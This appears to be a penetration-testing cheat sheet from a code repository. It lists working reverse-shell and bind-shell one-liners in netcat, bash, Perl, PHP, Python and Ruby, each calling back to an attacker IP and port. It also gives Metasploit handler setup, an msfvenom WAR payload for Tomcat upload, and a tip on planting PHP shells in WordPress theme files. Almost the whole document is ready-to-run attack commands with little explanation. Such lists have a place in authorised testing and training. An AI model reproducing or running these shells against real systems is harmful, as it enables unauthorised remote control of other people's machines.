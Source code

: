 ### Reverse Shells
#### Listensers
`nc -nlvp 1234`
- Always set up a netcat listener before executing a bash reverse shell

-You can also use multi handler from metasploit to catch incoming reverse shells
`msfconsole`
`use exploit /multi/handler`
`set LHOST 172.16.6.1`
`set LPORT 1234`
`run`

#### Netcat Reverse Shell
`nc 172.16.6.1 1234 -e /bin/sh`
- Standard netcat reverse shell (only works with some versions of nc)

#### Bash Reverse Shells
`bash -i >& /dev/tcp/172.16.6.1/1234 0>&1`
- Basic bash reverse shell

`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1 | nc 172.16.6.1 1234 >/tmp/f`
- Another bash reverse shell

#### Perl Reverse Shell
`perl -e 'use Socket;$i="172.16.6.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'`

#### PHP Reverse Shell
`php -r '$sock=fsockopen("172.16.6.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'`
- Standard PHP reverse shell typically used for injection on the terminal enviroment or into a web application

`$sock=fsockopen("172.16.6.1", 1234);exec("/bin/sh -i <&3 >&3 2>&3");`
- This php shell is used when you can inject php code into a theme file of a CMS (think wordpress)

#### Python Reverse Shell
`python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("172.16.6.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`
- Standard python reverse shell

#### Ruby Reverse Shell
`ruby -rsocket -e 'exit if fork;c=TCPSocket.new("172.16.6.1","1234");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'`
- Linux ruby reverse shell
`ruby -rsocket -e 'c=TCPSocket.new("172.16.6.1","1234");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'`
- Windows ruby reverse shell

#### War Reverse Shell
`msfvenom -p java/jsp_shell_reverse_tcp LHOST=172.16.6.1 LPORT=1234 -f war > /home/kali/Documents/shell.war`
- This will generate a war file for upload on the Tomcat CMS. Once uploaded click on the shell option to activate it.
- Catch this shell with multi/handler
`msfconsole`
`use exploit /multi/handler`
`set payload windows/meterpreter/reverse_tcp`
`set LHOST 172.16.6.1`
`set LPORT 1234`
`run`

### Bind Shells
#### Netcat Bind Shell
`nc -nlvp 1234 -e /bin/sh`
- This is executed on the target box and waits for an incoming connection
`nc [target box ip] 1234` 
- This is executed on your attack box to connect to the listener on the target



